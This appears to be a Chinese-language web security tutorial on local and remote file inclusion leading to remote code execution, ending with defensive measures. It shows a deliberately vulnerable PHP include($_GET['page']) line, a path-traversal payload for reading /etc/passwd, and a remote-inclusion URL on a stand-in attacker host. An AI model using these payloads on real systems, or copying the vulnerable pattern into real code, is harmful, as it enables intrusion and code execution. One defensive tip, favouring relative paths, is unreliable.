 ### **文件包含與遠程代碼執行（RCE）**

文件包含與遠程代碼執行（Remote Code Execution，RCE）是Web應用中的一類常見漏洞，通常由於不安全的文件處理或配置不當所引發。這些漏洞可能允許攻擊者加載並執行系統中的任意文件或代碼，從而達到完全控制目標系統的目的。文件包含漏洞一般與Web應用程序處理用戶輸入的文件路徑或文件名相關。

---

#### **1. 文件包含漏洞概述**

文件包含漏洞是指Web應用程序中，對用戶提供的文件名或路徑沒有進行充分的驗證和過濾，攻擊者可以利用這一點，將系統內部的文件、敏感配置文件或其他惡意代碼加載進來，甚至可能執行遠程的代碼。

**常見的文件包含類型**：
1. **本地文件包含（LFI, Local File Inclusion）**
   - 本地文件包含漏洞允許攻擊者加載並執行本地系統上的文件，通常是利用應用程序處理文件路徑的方式。例如，Web應用程序接收用戶輸入的文件路徑來顯示文件內容，若沒有對文件路徑進行適當的過濾和檢查，攻擊者可以提供一個惡意的文件路徑，指向本地系統的敏感文件（如`/etc/passwd`）。

2. **遠程文件包含（RFI, Remote File Inclusion）**
   - 遠程文件包含漏洞允許攻擊者加載並執行來自遠端伺服器的惡意文件。攻擊者可以提供一個指向遠端伺服器的URL，Web應用會加載並執行該文件，這可能會導致遠程代碼執行。RFI漏洞通常出現在PHP、ASP等動態Web應用程序中，這些語言提供了`include`或`require`函數來加載外部文件。

---

#### **2. 造成RCE的文件包含漏洞**

當Web應用未對文件路徑進行正確的驗證和過濾時，攻擊者可以利用這一漏洞來執行遠程代碼。這類漏洞的關鍵在於Web應用程序如何處理用戶提供的輸入並將其應用於文件路徑的解析。

**漏洞工作原理**：
1. **操控文件路徑**：
   攻擊者可以提供文件路徑參數，試圖讓應用加載和執行不該被執行的文件。這些文件可能是伺服器上不應該公開的敏感文件，或者是外部控制的文件（遠程文件）。

2. **執行惡意代碼**：
   如果文件包含功能允許遠程文件加載，攻擊者可以提供一個指向遠端伺服器的惡意代碼文件URL。這樣，當Web應用嘗試加載該文件時，遠程代碼會被執行，從而達到遠程代碼執行的目的。

**常見的攻擊場景**：
- **LFI (Local File Inclusion)**：
   攻擊者可以通過操縱文件路徑來加載伺服器上的敏感文件，如`/etc/passwd`、`/proc/self/environ`等，這些文件通常包含敏感的系統或用戶信息。
   ```php
   include($_GET['page']);
   ```
   如果未對`$_GET['page']`進行檢查，攻擊者可能傳入`../../../../../etc/passwd`來查看系統的密碼文件。

- **RFI (Remote File Inclusion)**：
   攻擊者可以將一個指向其控制的惡意PHP文件的URL傳入，當Web應用加載這個文件時，遠程代碼會在伺服器上執行。假設Web應用的代碼如下：
   ```php
   include($_GET['page']);
   ```
   攻擊者可以將`$_GET['page']`設置為`http://attacker.com/malicious_code.php`，將遠端代碼加載並執行。

---

#### **3. 遠程代碼執行（RCE）**

遠程代碼執行（RCE）是指攻擊者能夠在目標系統上執行任意代碼。文件包含漏洞通常是RCE攻擊的前提條件之一，當攻擊者能夠將惡意文件或代碼引入系統時，他們可能會執行任何操作，例如：
- 執行反向Shell，將控制權交給攻擊者。
- 執行敏感操作，如提權、修改系統配置或刪除文件。
- 利用系統漏洞進行其他攻擊（如DDoS）。

**RCE攻擊常見的工作流程**：
1. **找到可控的文件包含功能**：
   攻擊者首先尋找允許用戶提供文件名或路徑參數的Web應用功能，如`include`或`require`。
   
2. **測試文件包含漏洞**：
   攻擊者檢查是否能夠將不應該被加載的文件加載到Web應用中（例如敏感系統文件或PHP代碼）。

3. **提交惡意URL**：
   如果應用支持遠程文件包含，攻擊者提交指向其控制的惡意代碼文件的URL。

4. **執行遠程代碼**：
   當Web應用加載並執行遠程代碼後，攻擊者可以獲得系統控制權，進行進一步的攻擊或植入後門。

---

#### **4. 防範文件包含與RCE攻擊**

1. **限制文件包含路徑**：
   使用白名單過濾文件路徑，僅允許加載特定目錄中的文件，防止用戶操縱路徑。

2. **禁用遠程文件包含**：
   禁用Web伺服器或應用中支持遠程文件包含的功能，如PHP中的`allow_url_include`和`allow_url_fopen`。

3. **對用戶輸入進行過濾與驗證**：
   檢查並過濾用戶提供的所有輸入，防止注入任何文件路徑、URL或其他可執行代碼。

4. **使用相對路徑**：
   使用相對路徑而非絕對路徑來包含文件，減少路徑操控的風險。

5. **定期更新和修補漏洞**：
   經常檢查並修補應用中的已知漏洞，確保使用最新的安全修補。

6. **限制文件的執行權限**：
   限制Web伺服器或應用程序的執行權限，只允許必要的代碼執行，並阻止不必要的文件執行。

---

#### **總結**

文件包含與遠程代碼執行漏洞是Web應用中一類危險的漏洞，攻擊者可以利用這些漏洞來加載和執行任意代碼，從而控制目標系統。防範這類攻擊的關鍵是對文件路徑和用戶輸入進行嚴格的過濾和驗證，避免遠程文件包含的情況，並限制應用的文件操作權限。通過採取這些安全措施，可以有效減少文件包含和RCE攻擊的風險，保護Web應用的安全。